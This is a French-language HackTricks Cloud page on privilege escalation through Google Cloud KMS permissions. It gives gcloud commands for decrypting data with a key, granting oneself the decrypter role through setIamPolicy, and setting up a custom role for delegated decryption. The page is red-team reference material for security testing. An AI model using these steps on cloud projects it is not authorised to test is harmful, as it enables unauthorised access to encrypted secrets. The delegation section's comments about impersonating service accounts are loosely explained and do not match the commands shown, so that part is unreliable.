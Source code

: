 # GCP - KMS Privesc

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="../../../.gitbook/assets/image (1) (1) (1) (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1) (1) (1) (1).png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="../../../.gitbook/assets/image (2) (1).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2) (1).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

## KMS

Info sur KMS :

{% content-ref url="../gcp-services/gcp-kms-enum.md" %}
[gcp-kms-enum.md](../gcp-services/gcp-kms-enum.md)
{% endcontent-ref %}

Notez que dans KMS, les **permissions** ne sont pas seulement **héritées** des Organisations, Dossiers et Projets, mais aussi des **Keyrings**.

### `cloudkms.cryptoKeyVersions.useToDecrypt`

Vous pouvez utiliser cette permission pour **décrypter des informations avec la clé** sur laquelle vous avez cette permission.
```bash
gcloud kms decrypt \
--location=[LOCATION] \
--keyring=[KEYRING_NAME] \
--key=[KEY_NAME] \
--version=[KEY_VERSION] \
--ciphertext-file=[ENCRYPTED_FILE_PATH] \
--plaintext-file=[DECRYPTED_FILE_PATH]
```
### `cloudkms.cryptoKeys.setIamPolicy`

Un attaquant ayant cette autorisation pourrait **s'accorder des permissions** pour utiliser la clé afin de déchiffrer des informations.
```bash
gcloud kms keys add-iam-policy-binding [KEY_NAME] \
--location [LOCATION] \
--keyring [KEYRING_NAME] \
--member [MEMBER] \
--role roles/cloudkms.cryptoKeyDecrypter
```
### `cloudkms.cryptoKeyVersions.useToDecryptViaDelegation`

Voici une explication conceptuelle de la façon dont cette délégation fonctionne :

1. **Le Compte de Service A** a un accès direct pour déchiffrer en utilisant une clé spécifique dans KMS.
2. **Le Compte de Service B** se voit accorder la permission `useToDecryptViaDelegation`. Cela lui permet de demander à KMS de déchiffrer des données au nom du Compte de Service A.

L'utilisation de cette **permission est implicite dans la manière dont le service KMS vérifie les permissions** lorsqu'une demande de déchiffrement est faite.

Lorsque vous effectuez une demande de déchiffrement standard en utilisant l'API Google Cloud KMS (en Python ou dans un autre langage), le service **vérifie si le compte de service demandeur a les permissions nécessaires**. Si la demande est faite par un compte de service avec la **permission `useToDecryptViaDelegation`**, KMS vérifie si ce **compte est autorisé à demander le déchiffrement au nom de l'entité qui possède la clé**.

#### Configuration pour la Délégation

1. **Définir le Rôle Personnalisé** : Créez un fichier YAML (par exemple, `custom_role.yaml`) qui définit le rôle personnalisé. Ce fichier doit inclure la permission `cloudkms.cryptoKeyVersions.useToDecryptViaDelegation`. Voici un exemple de ce à quoi ce fichier pourrait ressembler :
```yaml
title: "KMS Decryption via Delegation"
description: "Allows decryption via delegation"
stage: "GA"
includedPermissions:
- "cloudkms.cryptoKeyVersions.useToDecryptViaDelegation"
```
2. **Créer le rôle personnalisé en utilisant le gcloud CLI** : Utilisez la commande suivante pour créer le rôle personnalisé dans votre projet Google Cloud :

{% code overflow="wrap" %}
```bash
gcloud iam roles create kms_decryptor_via_delegation --project [YOUR_PROJECT_ID] --file custom_role.yaml
```
{% endcode %}

Remplacez `[YOUR_PROJECT_ID]` par l'ID de votre projet Google Cloud.

3. **Accorder le rôle personnalisé à un compte de service** : Assignez votre rôle personnalisé à un compte de service qui utilisera cette autorisation. Utilisez la commande suivante :
```bash
# Give this permission to the service account to impersonate
gcloud projects add-iam-policy-binding [PROJECT_ID] \
--member "serviceAccount:[SERVICE_ACCOUNT_B_EMAIL]" \
--role "projects/[PROJECT_ID]/roles/[CUSTOM_ROLE_ID]"

# Give this permission over the project to be able to impersonate any SA
gcloud projects add-iam-policy-binding [YOUR_PROJECT_ID] \
--member="serviceAccount:[SERVICE_ACCOUNT_EMAIL]" \
--role="projects/[YOUR_PROJECT_ID]/roles/kms_decryptor_via_delegation"
```
Remplacez `[YOUR_PROJECT_ID]` et `[SERVICE_ACCOUNT_EMAIL]` par l'ID de votre projet et l'email du compte de service, respectivement.

{% hint style="success" %}
Apprenez et pratiquez le hacking AWS :<img src="../../../.gitbook/assets/image (1) (1) (1) (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1) (1) (1) (1).png" alt="" data-size="line">\
Apprenez et pratiquez le hacking GCP : <img src="../../../.gitbook/assets/image (2) (1).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2) (1).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Supportez HackTricks</summary>

* Vérifiez les [**plans d'abonnement**](https://github.com/sponsors/carlospolop)!
* **Rejoignez le** 💬 [**groupe Discord**](https://discord.gg/hRep4RUj7f) ou le [**groupe telegram**](https://t.me/peass) ou **suivez** nous sur **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks_live)**.**
* **Partagez des astuces de hacking en soumettant des PRs aux** [**HackTricks**](https://github.com/carlospolop/hacktricks) et [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) dépôts github.

</details>
{% endhint %}
